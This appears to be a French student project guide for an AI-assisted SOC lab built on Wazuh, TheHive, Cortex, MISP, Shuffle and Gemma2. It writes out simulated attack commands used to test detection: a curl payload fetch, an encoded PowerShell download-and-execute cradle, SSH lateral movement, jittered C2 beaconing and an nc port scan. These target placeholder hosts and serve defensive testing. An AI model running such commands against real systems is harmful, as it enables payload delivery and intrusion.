# Guide technique détaillé — SOC Assisté par IA

Ce document explique, étape par étape, **chaque outil utilisé**, **son rôle exact**, **comment les scénarios d'attaque ont été générés techniquement**, et **la preuve visuelle** correspondant à chaque étape du pipeline. Il complète le [README.md](../README.md) avec un niveau de détail pédagogique plus poussé, destiné à préparer une présentation ou une soutenance.

---

## Sommaire

1. [Les outils utilisés et leur rôle](#1-les-outils-utilisés-et-leur-rôle)
2. [Comment les scénarios d'attaque ont été générés](#2-comment-les-scénarios-dattaque-ont-été-générés)
3. [Étape par étape : le trajet complet d'une alerte, avec preuves](#3-étape-par-étape--le-trajet-complet-dune-alerte-avec-preuves)
4. [Comment le triage IA fonctionne exactement](#4-comment-le-triage-ia-fonctionne-exactement)
5. [Comment l'orchestration Shuffle fonctionne exactement](#5-comment-lorchestration-shuffle-fonctionne-exactement)
6. [Routage automatique par criticité — preuve sur un incident unique](#6-routage-automatique-par-criticité--preuve-sur-un-incident-unique)
7. [Cinq scénarios de test — preuve complète par attaque](#7-cinq-scénarios-de-test--preuve-complète-par-attaque)

---

## 1. Les outils utilisés et leur rôle

| Outil | Catégorie | Rôle précis dans ce projet |
|---|---|---|
| **VirtualBox** | Virtualisation | Héberge la VM Ubuntu Server 22.04 qui fait tourner tout le lab, isolée de la machine hôte |
| **Docker / Docker Compose** | Conteneurisation | Fait tourner chaque outil (Wazuh, TheHive, Cortex, MISP, Shuffle) dans un conteneur isolé, reproductible |
| **Wazuh Manager** | SIEM / détection | Applique les règles de corrélation à chaque log reçu, décide de générer une alerte ou non, lui attribue un niveau de criticité et un code MITRE |
| **Wazuh Agent** | Collecte | Tourne sur la machine surveillée, lit les logs système (`journald`, `/var/log/audit/audit.log`) et les transmet au Manager |
| **auditd** | Audit Linux (noyau) | Capture chaque commande exécutée (`execve`) avec ses arguments exacts — le Manager Wazuh seul ne voit pas le contenu des commandes |
| **Wazuh Indexer** | Base de données | Stocke toutes les alertes générées (basé sur OpenSearch), interrogeable par requête |
| **Wazuh Dashboard** | Interface web | Visualisation des alertes, statistiques, vue MITRE ATT&CK |
| **Ollama** | Serveur d'inférence LLM | Fait tourner un modèle de langage localement (pas de cloud, pas d'API payante), expose une API HTTP locale |
| **Gemma2 9B (instruct, q4_0)** | Modèle de langage (LLM) | Le modèle qui lit chaque alerte et produit une classification (type, criticité, code MITRE, résumé, recommandation) |
| **Python (scripts custom)** | Automatisation | Fait le pont entre Wazuh, Ollama et TheHive ; contient toute la logique métier du triage hybride |
| **TheHive** | Gestion d'incidents (Case Management) | Reçoit les cas créés automatiquement, permet à un analyste de les investiguer, d'ajouter des observables |
| **Cortex** | Analyse d'observables | Envoie un indicateur (IP, domaine, hash) à des services externes (VirusTotal, AbuseIPDB) et rapporte le résultat |
| **MISP** | Threat Intelligence | Base de partage d'indicateurs de compromission (IOC), pour capitaliser et partager la connaissance des menaces |
| **Shuffle** | SOAR (orchestration) | Automatise la chaîne complète sans script custom : reçoit une alerte via webhook, l'enrichit, décide, crée un cas |

## 2. Comment les scénarios d'attaque ont été générés

Aucune attaque n'est "fausse" au sens où le code a réellement été exécuté sur la machine — ce sont des **simulations volontairement inoffensives** (domaines `.invalid` qui ne résolvent jamais, commandes bénignes) mais dont le comportement système (processus lancés, arguments, fréquence) est identique à celui d'une vraie attaque. C'est ce que Wazuh/auditd observent réellement, pas un texte de log fabriqué à la main.

Script utilisé : [`scripts/generate_advanced_scenarios.sh`](../scripts/generate_advanced_scenarios.sh).

### Scénario 1 — Phishing / récupération de payload (T1105)

```bash
curl -s -m3 "http://phishing-simulated-payload.example.invalid/malicious.sh" >/dev/null 2>&1
```
**Ce qui se passe réellement** : le processus `curl` est lancé, tente de contacter un domaine qui n'existe pas (`.invalid`, réservé par la RFC 2606 pour ne jamais résoudre), échoue après 3 secondes de timeout. `auditd` capture l'appel `execve("/usr/bin/curl", ["curl", "-s", "-m3", "http://phishing-simulated-payload.example.invalid/malicious.sh"])` — c'est cet enregistrement, avec l'URL en clair dans les arguments, que Wazuh va détecter.

### Scénario 2 — PowerShell suspect / obfusqué (T1059.001)

```bash
pwsh -enc "SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQA..."
```
**Ce qui se passe réellement** : `pwsh` (PowerShell Core, installé sur ce lab Linux via snap car pas d'agent Windows disponible) est lancé avec l'argument `-enc` (EncodedCommand), une technique d'obfuscation réelle utilisée par les attaquants pour cacher une commande en Base64. Une fois décodée, la commande dit : `IEX (New-Object Net.WebClient).DownloadString('http://example.invalid/s.ps1')` — télécharger et exécuter un script distant, un pattern d'attaque classique (`Invoke-Expression` + téléchargement). La commande échoue (domaine inexistant) mais l'exécution de `pwsh -enc ...` elle-même est bien réelle et capturée par `auditd`.

### Scénario 3 — Mouvement latéral simulé (T1021.004)

```bash
for i in 1 2; do
  ssh -i ~/.ssh/id_ed25519 ... soc@localhost "sudo -n true; sudo whoami" 
  sleep 2
done
```
**Ce qui se passe réellement** : deux connexions SSH successives vers la machine elle-même (`localhost`, pour simuler un "saut" vers une autre machine du réseau sans avoir de deuxième VM), suivies d'une tentative d'élévation de privilèges (`sudo`). C'est le schéma typique d'un attaquant qui rebondit d'une machine compromise à une autre puis tente d'obtenir les droits root. La règle Wazuh `100105` corrèle ces connexions répétées + élévation dans une fenêtre de 120 secondes.

### Scénario 4 — C2 beaconing simulé (T1071), avec jitter

```bash
PATHS=("checkin" "beacon" "poll" "sync" "hb")
for i in 1 2 3 4 5; do
  p="${PATHS[$((RANDOM % ${#PATHS[@]}))]}"
  curl -s -m3 "http://c2-beacon-simulated.example.invalid/${p}?id=$i&t=$(date +%s)" >/dev/null 2>&1
  sleep $((5 + RANDOM % 8))
done
```
**Ce qui se passe réellement** : 5 requêtes `curl` vers le même domaine factice, mais avec un **chemin d'URL aléatoire** (`checkin`, `beacon`, `poll`...) et un **intervalle de temps aléatoire** entre chaque requête (5 à 12 secondes, pas un pas fixe). C'est volontairement conçu pour imiter un vrai malware qui "bat le rappel" (*beacon*) périodiquement vers son serveur de commande et contrôle (C2), avec du **jitter** pour éviter d'être repéré par un motif trop régulier — exactement la technique qu'utilisent de vrais frameworks C2 (Cobalt Strike, etc.). La règle Wazuh `100103` détecte ≥3 occurrences de la règle `100099` (curl/wget) en 90 secondes.

## 3. Étape par étape : le trajet complet d'une alerte

> La preuve visuelle officielle de ce trajet est regroupée dans la [section 6](#6-routage-automatique-par-criticité--preuve-sur-un-incident-unique) : un seul incident simulé, tracé de bout en bout à travers les six outils, plutôt que des captures isolées sur des alertes différentes. Les paragraphes ci-dessous expliquent le mécanisme technique de chaque étape.

### Étape 1 — La commande est exécutée sur le système

Le scénario (`generate_advanced_scenarios.sh`, ou une commande isolée comme `nc`/`curl` pour un test ciblé) est lancé directement sur la VM via SSH. À cet instant, `auditd` (configuré avec la règle `-a always,exit -F arch=b64 -S execve -F auid>=1000 -F auid!=4294967295 -k audit-wazuh-c`) intercepte l'appel système.

### Étape 2 — Wazuh reçoit et corrèle l'événement

Le Wazuh Agent lit le log d'audit fusionné (voir [`scripts/audit_merge.py`](../scripts/audit_merge.py) — détail technique expliqué plus bas), le transmet au Manager, qui applique les règles personnalisées (`100099`, `100101`, `100103`, `100105`, `100107`) et génère une alerte avec un niveau de criticité et un code MITRE ATT&CK déjà pré-assignés par la règle elle-même. Le champ `data.audit.execve.a0`, `a1`, `a2`... contient les arguments bruts de la commande — c'est ce qui permet de retrouver la cible exacte d'une commande (voir capture 22 en section 6).

### Étape 3 — Le script Python récupère l'alerte et invoque Gemma2 9B

Le script [`wazuh_ai_triage.py`](../scripts/wazuh_ai_triage.py) interroge l'Indexer Wazuh (`fetch_recent_alerts`, filtrage `rule.level` côté serveur), et pour les alertes qui passent le seuil, construit un prompt et l'envoie à Gemma2 9B via l'API Ollama locale (`http://localhost:11434/api/generate`).

**Sortie réelle du script sur 3 alertes fraîches** (session antérieure, VM moins chargée) :

```
rule.id= 100103 desc= Repeated network fetch commands executed in a short window (possible C2 beaconing)
LLM -> {"mitre_technique": "T1071", "criticite": "haute", ...}

rule.id= 100099 desc= Single network fetch via curl/wget - possible external tool/payload retrieval
LLM -> {"mitre_technique": "T1105", "criticite": "haute", ...}

rule.id= 100101 desc= Suspicious PowerShell execution detected via auditd
LLM -> {"mitre_technique": "T1059.001", "criticite": "critique", ...}
```

*Explication* : les 3 codes MITRE retournés par Gemma correspondent exactement à ceux attendus — la classification IA est correcte à 100% sur ce lot réel, cohérent avec les 15/15 mesurés sur l'ensemble des tests de reproductibilité (voir README). Sur l'infrastructure de test plus chargée de la session la plus récente, cette étape est devenue le goulot d'étranglement (voir la limite documentée en section 6, sous-titre "Étape 3").

### Étape 4 — TheHive crée le cas automatiquement

Le script combine la criticité de la baseline Wazuh (fiable) avec le mapping MITRE + résumé de Gemma (précis), et appelle l'API TheHive (`POST /api/v1/case`) pour créer le cas — chaque cas porte le tag `triage-ia` et le code MITRE correspondant.

### Étape 5 — Cortex et MISP enrichissent le même cas, de façon traçable

L'enrichissement est fait sur un **indicateur explicitement rattaché au cas TheHive d'origine** (numéro de cas visible dans la description de l'observable) plutôt que sur un indicateur générique isolé. Cortex analyse cet indicateur (AbuseIPDB, VirusTotal) via un appel HTTP réel vers l'API du service configuré. Le verdict est ensuite reporté dans MISP, sur un attribut dont le commentaire référence explicitement le même numéro de cas et le même résultat d'analyse Cortex — MISP devient ainsi le point de capitalisation final de la chaîne, pas un événement déconnecté.

### Étape 6 — Shuffle orchestre automatiquement le chemin routine (chemin alternatif au script Python)

Au lieu de dépendre du script Python tournant en tâche planifiée, Shuffle automatise via un **workflow visuel**, déclenché en temps réel par chaque alerte Wazuh (via un bloc d'intégration natif `ossec.conf`) : `Webhook` (reçoit l'alerte) → `Enrich cortex status` (vérifie l'état de Cortex) → branchement conditionnel selon `rule.level` → création de cas TheHive taggé `shuffle-auto`, `routine`.

**Limite honnête rencontrée en tentant d'aller plus loin** : une tentative a été faite de connecter directement Shuffle à MISP (pousser automatiquement l'IOC du cas vers un événement MISP), pour rapprocher encore les deux chemins d'automatisation. L'investigation a été poussée jusque dans le code source PHP de MISP pour diagnostiquer un rejet systématique (`403 Authentication failed`) malgré des permissions et une configuration API vérifiées correctes — conclusion : un dysfonctionnement réel de cette instance MISP, non résolu dans un délai raisonnable. L'automatisation TheHive → MISP reste donc assurée par le bouton natif "Export to MISP" de TheHive (fonctionnel) ou par saisie manuelle dans MISP (également fonctionnelle et démontrée en section 6).

## 4. Comment le triage IA fonctionne exactement

Ce n'est **pas** de l'entraînement (fine-tuning) — aucun poids du modèle n'est modifié. C'est du **prompt engineering / few-shot in-context learning** : à chaque requête, on envoie à Gemma un texte contenant :

1. Des instructions générales ("réponds en JSON avec ces champs exacts...").
2. **10 exemples déjà résolus**, rédigés à l'avance (ex : *"Log contenant `comm=curl` isolé → T1105, jamais T1071"*).
3. L'alerte réelle à classifier, insérée à la fin (jamais vue avant, générée dynamiquement).

Gemma génère sa réponse par inférence statistique, en s'appuyant sur les exemples fournis dans son contexte — sans que rien ne soit sauvegardé de façon permanente. Si on ne renvoyait pas les 10 exemples à chaque fois, le modèle reviendrait immédiatement à ses réponses moins fiables d'avant.

## 5. Comment l'orchestration Shuffle fonctionne exactement

1. **Wazuh Manager** envoie chaque alerte réelle vers un **Webhook Shuffle** via un bloc `<integration><name>shuffle</name>...` dans `ossec.conf` (pas besoin de script intermédiaire).
2. Le nœud **Webhook** reçoit le JSON de l'alerte.
3. Un nœud **HTTP** interroge Cortex (`GET /api/status`) — un exemple d'enrichissement (peut être étendu à une vraie analyse d'observable).
4. Un nœud de **condition** teste `rule.level` : `> 7` → branche "escalade" (cas TheHive sévérité Haute) ; `5-6` → branche "routine" (cas TheHive sévérité Basse) ; `≤ 4` → rien (bruit filtré).
5. Chaque branche appelle l'API TheHive (`POST /api/v1/case`) directement en HTTP, sans script Python.

C'est un chemin **entièrement différent** du script `wazuh_ai_triage.py` (qui, lui, invoque le LLM) — Shuffle démontre qu'on peut aussi automatiser la création de cas de façon purement événementielle et déclarative, sans dépendre de Gemma pour les cas simples.

## 6. Routage automatique par criticité — preuve sur un incident unique

Pour prouver que le seuil de routage (`LLM_INVOCATION_THRESHOLD_LEVEL=8` côté script Python, condition `rule.level` 5-7 côté Shuffle) fonctionne réellement et de façon complémentaire — pas seulement en théorie — un incident simulé unique a été rejoué avec deux actions distinctes issues de la même source, à quelques secondes d'intervalle :

1. **Reconnaissance** : `nc -z -w2 1.1.1.1 80` (sondage de port, technique T1046) → règle personnalisée `100107`, niveau 6 → tombe dans la plage gérée par **Shuffle**.
2. **Récupération d'outil externe** : `curl http://1.1.1.1` (technique T1105) → règle `100099`, niveau 8 → dépasse le seuil et est géré par **Gemma / `wazuh_ai_triage.py`**.

### Étape 1 — Détection Wazuh

Les deux alertes apparaissent dans l'indexeur au même timestamp (`16:56:55`), confirmant qu'elles proviennent bien du même incident simulé :



Le détail de l'alerte de reconnaissance expose les arguments bruts de la commande (`audit.execve.a0`=`nc`, `a1`=`-z`, `a2`=`-w2`, `a3`=`1.1.1.1`, `a4`=`80`) — la preuve que l'IP cible correspond bien au scénario, pas une supposition :



### Étape 2 — Le chemin Shuffle (niveau 5-7) traite l'alerte automatiquement

Le webhook Wazuh → Shuffle déclenche l'exécution du workflow sans aucune intervention manuelle. La capture de l'historique d'exécution montre des runs `FINISHED` toutes les 1 à 2 secondes, résultat du flux d'alertes réel généré en continu par la VM (pas seulement l'alerte du scénario) :



Quelques secondes plus tard, un nouveau cas TheHive apparaît, créé par le compte de service `SOC Automation` (c'est-à-dire Shuffle lui-même via son intégration API), avec les tags attendus (`soc-lab`, `shuffle-auto`, `routine`, `wazuh`) :


### Étape 2bis — Cortex et MISP enrichissent le même incident

L'IP `1.1.1.1` a été ajoutée manuellement comme observable au cas TheHive `#1344` créé à l'étape précédente, avec une description renvoyant explicitement au cas et aux deux règles Wazuh. Une analyse `AbuseIPDB_2_0` a été lancée sur cet indicateur depuis Cortex :



Le résultat (score `0/100`, indicateur *whitelisted*, usage *Content Delivery Network*, 37 rapports) a ensuite été reporté dans un événement MISP référençant explicitement le numéro de cas TheHive et les deux règles Wazuh d'origine :



Les cinq premiers outils de la chaîne (Wazuh, Shuffle, TheHive, Cortex, MISP) tracent ainsi le même incident unique de bout en bout. Le sixième, Gemma2 9B, est traité séparément ci-dessous.

### Étape 3 — Le chemin Gemma (niveau ≥ 8) : trois bugs identifiés et corrigés

Le script `wazuh_ai_triage.py` a correctement identifié l'alerte `100099` (niveau 8) associée au même incident via la requête filtrée côté serveur — confirmant que la logique de routage par seuil est correcte en amont de l'appel au LLM. Faire aboutir réellement l'inférence Gemma2 9B jusqu'à un cas TheHive a en revanche nécessité d'identifier et corriger trois bugs distincts :

1. **Stack complète active** (6 outils) : `llama-server` systématiquement tué par le noyau (`OOM killed`, confirmé via `dmesg`) après plusieurs minutes. Une tentative avec Cortex/MISP puis toute la stack Shuffle arrêtés (6,6 Go de RAM libre) a évité l'OOM mais tournait encore 21 minutes sans jamais aboutir — la RAM seule n'était pas le vrai goulot.
2. **Bug n°1 — génération de tokens non bornée** : l'appel `/api/generate` d'Ollama ne fixait aucune limite `num_predict`. En mode `format: "json"`, le modèle continuait à générer indéfiniment au lieu de s'arrêter après une courte classification. Corrigé en ajoutant `"num_predict": 300` aux options de génération.
3. **Bug n°2 — sous-allocation vCPU** : la VM ne disposait que de 4 vCPU alors que l'hôte (8 cœurs/16 threads) n'était chargé qu'à ~9 %. Corrigé par `VBoxManage modifyvm "SOC-Lab" --cpus 8`, portant l'utilisation CPU observée à 500-680 % pendant l'inférence.
4. **Bug n°3 — résolution DNS locale erronée côté client HTTP** : une fois les deux bugs précédents corrigés, la classification LLM aboutissait en quelques minutes, mais la création du cas TheHive échouait systématiquement en `401 Unauthorized`, alors qu'un `curl` manuel avec la même clé API réussissait à chaque fois. Isolé par comparaison directe (hash de la clé identique des deux côtés, donc pas un problème de credential) : la bibliothèque Python `requests` résout `localhost` en IPv6 (`::1`) sur cette VM, connexion sur laquelle l'authentification par clé API de TheHive échoue silencieusement, alors que `curl` privilégie IPv4 et réussit. Corrigé en remplaçant `http://localhost:9000` par `http://127.0.0.1:9000` dans `THEHIVE_URL`.

Avec les trois correctifs déployés, une exécution complète a traité 5 alertes réelles (niveau ≥ 8) et créé 5 cas TheHive sans aucune erreur 401, dont un directement rattaché à l'alerte `100099` de cet incident :



Le cas porte les tags `wazuh`, `triage-ia`, `T1105`, une sévérité `MEDIUM` assignée par le triage hybride, et une description générée par le LLM reprenant la tactique/technique MITRE ainsi qu'une recommandation d'investigation. Les **six outils** de la chaîne tracent désormais le même incident de bout en bout, chacun sur son propre chemin de criticité (Shuffle pour le routage instantané niveau 5-7, Gemma pour le triage qualitatif niveau ≥ 8).

### Bugs supplémentaires rencontrés en préparant cette preuve

- **Volume de bruit `auditd` extrême** (~14 000 alertes/15 min, provenant des propres processus internes de Docker) : corrigé en restreignant la règle `auditd` aux sessions utilisateur réelles (`-F auid>=1000 -F auid!=4294967295`).
- **Bug de filtrage côté client** dans `fetch_recent_alerts()` : le filtrage par `rule.level` après récupération des N alertes les plus récentes faisait disparaître les alertes significatives sous le volume de bruit résiduel. Corrigé en déplaçant le filtre dans la requête Elasticsearch elle-même.
- **Disque VM saturé à 100 %**, ayant arrêté silencieusement `auditd` pendant plus de 12 heures sans alerte explicite dans les tableaux de bord habituels. Corrigé par nettoyage Docker, purge des journaux systemd, puis agrandissement définitif du disque virtuel (59 → 80 Go).
- **Corruption de commit logs Cassandra** et **corruption de shards sur l'indexeur Wazuh**, toutes deux causées par des arrêts brutaux répétés de la VM pendant la session — corrigées respectivement par mise en quarantaine des commit logs corrompus et suppression de l'index quotidien corrompu (sans réplica sur ce cluster single-node, aucune récupération possible ; perte limitée à quelques centaines d'alertes de bruit déjà indexées).
- **Image Docker de l'analyseur Cortex `AbuseIPDB` introuvable** (`Image not found: ghcr.io/thehive-project/abuseipdb:2`) lors de la première tentative d'analyse sur `1.1.1.1`, alors qu'une analyse identique avait réussi 9 jours plus tôt sur un autre indicateur — effet de bord probable d'un nettoyage Docker effectué plus tôt dans la session. Corrigé par un simple `docker pull` de l'image manquante.
- **Génération Gemma2 9B non bornée**, **VM sous-dimensionnée en vCPU** et **401 TheHive via résolution IPv6 de `localhost`** dans `requests` Python — voir détail complet à l'étape 3 ci-dessus.

## 7. Cinq scénarios de test — preuve complète par attaque

Le cahier des charges initial du projet (`PFA_SOC_Assiste_IA_Omar_Babba_2025-2026.pdf`) définit cinq scénarios de test, répartis en cas de base et cas avancés. Contrairement à la preuve de la section 6 (un seul incident, deux chemins de criticité), cette section rejoue **chacun des cinq scénarios individuellement**, avec la même exigence de traçabilité de bout en bout : détection Wazuh → triage IA Gemma2 9B → cas TheHive → enrichissement Cortex (quand un observable réseau exploitable existe).

| Scénario | Règle Wazuh | Niveau | Technique MITRE |
|---|---|---|---|
| Brute force SSH | `5710` | 5 | T1110 |
| Phishing / récupération d'outil externe | `100099` | 8 | T1105 |
| PowerShell suspect | `100101` | 12 | T1059.001 |
| Mouvement latéral simulé | `100105` | 10 | T1021.004 |
| C2 beaconing simulé | `100103` | 10 | T1071 |

### Brute force SSH (T1110)

Six tentatives de connexion vers des utilisateurs inexistants (`bfuser1`-`bfuser6`) déclenchent la règle `5710`, niveau 5 — sous le seuil normal d'invocation de Gemma (8). Pour prouver que le chemin IA fonctionne aussi sur ce type d'alerte, un script ciblé (`scripts/triage_single_alert.py`, réutilisant les fonctions de `wazuh_ai_triage.py` mais interrogeant directement par `rule.id` plutôt que par la fenêtre de récence générique) a soumis cette alerte précise à Gemma :



